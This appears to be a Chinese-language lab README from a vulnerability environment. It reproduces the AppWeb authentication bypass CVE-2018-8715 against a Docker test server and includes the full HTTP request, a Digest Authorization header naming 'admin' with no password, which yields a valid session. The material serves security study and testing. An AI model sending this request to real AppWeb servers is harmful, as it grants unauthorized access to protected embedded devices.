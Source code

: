 # AppWeb认证绕过漏洞（CVE-2018-8715）

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610

## 漏洞环境

执行如下命令启动一个带有digest认证的appweb服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，可见需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![](1.png)

设置这个session到浏览器，即可正常访问需要认证的页面：

![](2.png)
